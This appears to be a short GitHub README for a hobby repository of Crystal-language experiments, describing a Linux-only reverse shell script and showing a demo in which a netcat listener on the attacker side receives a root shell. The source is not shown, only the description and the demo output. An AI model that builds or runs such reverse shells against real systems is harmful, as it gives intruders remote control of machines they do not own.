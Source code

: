 # crystalmeth
experiments with "crystal" language. As I faff with it I'll upload small programs here with some semblance of documentation. 

## backconnect.cr  
Linux only (because I cheated and used syscalls for the dup2 part) reverse shell. Once I can be fucked, I'll fix it so it works properly on other platforms.

Demo:  
I mean. It is the most basic reverse shell. 
```
# crystal run backconnect.cr
(nothing happens)
--
attacker:~$  nc -lvp 42069
listening on [any] 42069 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 35216
id
uid=0(root) gid=0(root) groups=0(root)
exit
```
